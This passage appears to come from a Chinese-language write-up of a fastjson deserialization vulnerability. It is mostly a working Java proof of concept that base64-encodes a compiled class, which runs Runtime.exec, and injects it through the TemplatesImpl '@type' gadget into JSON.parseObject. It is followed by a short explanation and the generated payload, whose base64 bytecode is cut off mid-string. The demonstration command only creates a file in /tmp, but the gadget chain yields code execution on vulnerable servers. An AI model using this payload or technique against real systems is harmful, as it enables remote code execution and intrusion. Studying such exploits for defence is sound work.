 ```java
/**
 * Created by web on 2017/4/29.
 */
public class Poc {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = System.getProperty("user.dir") + "/target/classes/person/Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
                "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
        System.out.println(text1);
        //String personStr = "{'name':"+text1+",'age':19}";
        //Person obj = JSON.parseObject(personStr, Person.class, config, Feature.SupportNonPublicField);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());

    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

首先走读这一段POC源码，我们可以看到Test.java主要实现了一个类，这个类利用`Runtime.getRuntime().exec("/usr/bin/touch /tmp/success.txt");`语句执行在/tmp目录下生产success.txt文件的命令，而POC.java文件中主要执行test_autoTypeDeny()函数，函数获取Test.java文件编译完成后的.class文件然后进行base64编码，将编码后的字符串赋值给`_bytecodes`加上POC构造成漏洞利用payload：_

```java
text1={"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","bytecodes":
["yv66vgAAADEANAcAAgEAC3BlcnNvbi9UZXN0BwAEAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbH
RjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEABjxpbml0PgEAAygpVgEACkV4Y2VwdGlvbnMHAAkBABNqYXZhL2lvL0lPRX
hjZXB0aW9uAQAEQ29kZQoAAwAMDAAFAAYKAA4AEAcADwEAEWphdmEvbGFuZy9SdW50aW1lDAARABIBAApnZXRSdW50aW1lAQ
AVKClMamF2YS9sYW5nL1J1bnRpbWU7CAAUAQAfL3Vzci9iaW4vdG91Y2ggL3RtcC9zdWNjZXNzLnR4dAoADgAWDAAXABgBAA
RleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPTGluZU51bWJlclRhYmxlAQASTG9jYW
xWYXJpYWJsZVRhYmxlAQAEdGhpcwEADUxwZXJzb24vVGVzdDsBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS
94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdG
VyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOy
lWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcg
EANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb2
0vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3
VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC
9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWBwAnAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybm
```